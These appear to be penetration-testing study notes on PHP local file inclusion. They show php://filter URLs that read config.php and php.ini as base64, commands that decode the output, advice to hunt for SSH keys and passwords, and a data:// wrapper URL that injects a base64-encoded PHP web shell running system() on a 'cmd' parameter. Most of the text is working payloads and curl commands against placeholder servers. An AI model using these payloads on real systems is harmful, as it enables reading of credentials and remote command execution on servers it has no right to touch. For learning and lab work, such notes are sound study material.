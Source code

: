 #### Standard PHP inclusion 
PHP often does not render anything
Read config.php
```url
php://filter/read=convert.base64-encode/resource=config
```
Example:
```url
http://<SERVER_IP>:<PORT>/index.php?language=php://filter/read=convert.base64-encode/resource=config
```
Decode base 64 
```shell
echo 'PD9waHAK...SNIP...KICB9Ciov' | base64 -d
```

# Remote Code Execution 
* Easy and common method is to enumerate for SSH keys or passwords in PHP files then login.
	* Look in `config.php` or `.ssh` directory 
## PHP wrappers
* Can be used to include external data, including PHP code.
* Only enabled if the `allow_url_include` setting is enabled in PHP config. 
#### Checking PHP configuration 

```shell
curl "http://<SERVER_IP>:<PORT>/index.php?language=php://filter/read=convert.base64-encode/resource=../../../../etc/php/7.4/apache2/php.ini"
```

##### PHP config locations 
`X.Y` is PHP version

| Platform | Location                      |
| -------- | ----------------------------- |
| Apache   | `/etc/php/X.Y/apache2/php.ini |
| Nginx    | `/etc/php/X.Y/fpn/php.ini`    |

Decode the string
```shell
echo 'W1BIUF0KCjs7Ozs7Ozs7O...SNIP...4KO2ZmaS5wcmVsb2FkPQo=' | base64 -d | grep allow_url_include
```

### Remote Code Execution 
#### [Data](https://www.php.net/manual/en/wrappers.data.php)
```shell
echo '<?php system($_GET["cmd"]); ?>' | base64
```

URL:
```url
http://<SERVER_IP>:<PORT>/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id
```
